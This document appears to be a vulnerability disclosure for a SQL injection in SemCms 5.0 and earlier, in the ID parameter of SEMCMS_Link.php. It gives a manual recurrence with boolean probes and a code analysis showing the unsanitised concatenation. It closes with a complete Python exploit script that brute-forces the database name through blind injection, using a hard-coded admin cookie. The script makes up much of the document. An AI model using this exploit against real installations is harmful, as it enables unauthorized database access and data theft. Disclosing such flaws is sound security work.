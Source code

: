 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Link.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the pid parameter in the SEMCMS_Link.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.There is an SQL injection vulnerability in the ID parameter. Construct URL links. http://localhost:83/admin/SEMCMS_Link.php?type=edit&ID=1
It was found that when ID=1, there is a corresponding content ~

![image](https://github.com/user-attachments/assets/af84336d-ed4d-4244-8a49-83061a20b2ea)

When ID=1-1, there is no corresponding content:

![image](https://github.com/user-attachments/assets/c8813265-cbc2-4087-88d6-d8c2f0015aaa)

Determine the length of the database:

![image](https://github.com/user-attachments/assets/e8e98be9-1c5f-41cc-b0ad-36ae9d95607e)
![image](https://github.com/user-attachments/assets/9a8b1cf3-dfc0-4416-b83d-0e1a852bb8d5)

The normal echo indicates that the length of the database name is 8. Next, determine what the specific value of the database name is?

![image](https://github.com/user-attachments/assets/119820f0-ded4-4335-8f66-29354f73c695)

Finally, the database username is obtained as semcms50, and the yakit data packet:

# Code Analysis
Line 32 of `SEMCMS_Link.php`

![image](https://github.com/user-attachments/assets/63d5b5ca-6cac-4ee0-8f51-0b2a9bbc19bf)

The ID parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script

```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if 'semcms' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if 'semcms' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Link.php?type=edit&ID="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```

